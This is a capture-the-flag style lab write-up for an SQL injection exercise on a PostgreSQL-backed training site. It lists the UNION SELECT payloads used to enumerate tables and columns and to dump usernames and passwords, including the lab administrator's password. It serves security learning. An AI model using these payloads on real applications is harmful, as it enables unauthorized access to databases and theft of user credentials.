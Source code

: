 # Lab 9 - SQL injection attack, listing the database contents on non-Oracle databases

**Status**: Solved on August 2, 2023

**Objective**: Obtain the username and password of all users, and the log in as the `administrator` user.

## Solving Process

- The number of columns was found to be 2, by using this payload: `' order by 2 --` Since it’s the highest column number that didn’t throw an internal server error.
- The database version was retrieved with this payload: `' UNION SELECT version(),NULL --`. The right query for the version was found by trying the available options until a 200 OK response was thrown.
  - Response: `PostgreSQL 12.15 (Ubuntu 12.15-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`
- By searching on Google for the available columns in `information_schema.tables`, it was found that a `table_name` column exists, which can be used to check which tables in the database may hold user information.
  - This payload was used to output the entries stored in `table_names`: `' UNION SELECT table_name,NULL FROM information_schema.tables --`
- After checking the outputted table names, the following may hold users’ information:
  - `pg_user`
  - `users_aifmth`
- The column names for those tables were outputted by using the following payload (built with the help of the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):
  - `' UNION SELECT column_name,NULL FROM information_schema.columns where table_name = 'users_aifmth' --`
  - The table that holds the most interesting column names is `users_aifmth`, which are: `username_wopbqk` and `password_youquw`
- Finally, the users & their passwords where gathered by quering the `users_aifmth` table with this payload: `' UNION SELECT username_wopbqk,password_youquw FROM users_aifmth --`
  - And the administrator credentials were rendered in the page’s html
  - Username: `administrator`. Password: `fb17rmxxk876i7vmaqf2`
